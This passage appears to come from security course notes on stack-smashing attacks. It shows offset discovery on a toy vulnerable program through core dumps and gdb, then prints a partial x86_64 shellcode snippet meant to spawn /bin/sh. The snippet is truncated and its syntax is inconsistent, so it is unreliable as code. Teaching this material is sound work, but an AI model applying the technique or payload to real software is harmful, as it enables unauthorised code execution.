 ### 1.1.2 Stack Smashing
A stack smashing attack contains three major steps:
- Step 1. Detect buffer overflow bugs or find an input that can crash a program. This is usually done via fuzz testing. 
- Step 2. Analyze stack layout of the buggy code. In practice, attackers may not be able to obtain the executables. 
- Step 3. Design the exploit. To obtain the shell. e.g., with return-oriented programming.

Now, we discuss a more general senario, i.e., 1) the attacker cannot obtain the binaries, and 2) his goal is to obtain the shell. 

#### 1.1.2.1 Stack Layout Analysis
The purpose is to obtain the offset of the return address so that we can point it to the another code address, e.g., shell code. Let's still use our previous toy program for demonstration. The idea is to input several 'A's (hexdecimal ASCII: 0X41). If it has changed the return addresses, then the program will not be able to continue the execution and report the bad return address. We can gradually increase the length of the input to learn the offset of the return address. 

|                |
|:--------------:|
| previous frame |
|   ret address  |
|       ...      |
|    AAAAAAAA    |

Before experiments, we need to turn on the core dump message
```
#: ulimit -c unlimited
#: sudo sysctl -w kernel.core_pattern=core
```

Input several 'A's and check the core dump message.
```shell
python -c 'print "A"*92'
./vuln
Input your key:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wrong key!
Segmentation fault (core dumped)

gdb --core core 
Core was generated by `./vuln'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x0000000a41414141 in ?? ()
```
The log message displays a segmentation fault caused by a invalid return address 0x0000000a41414141. Because there are four 'A's, we can know the offset of the return address should be 92-4=88. Note that if you try more a 'A's, the error message may not be 0x0000414141414141 but another different address because 0x0000414141414141 is an invalid code address to the OS.

#### 1.1.2.2 Design the Exploit 
The following code is a shellcode snippts for x86_64, which executes system("/bin/sh"). 
```
xor eax, eax
mov 0xFF978CD091969DD1, rbx
neg rbx
push rbx
push rsp
pop rdi
cdq
push rdx
push rdi
push rsp
```
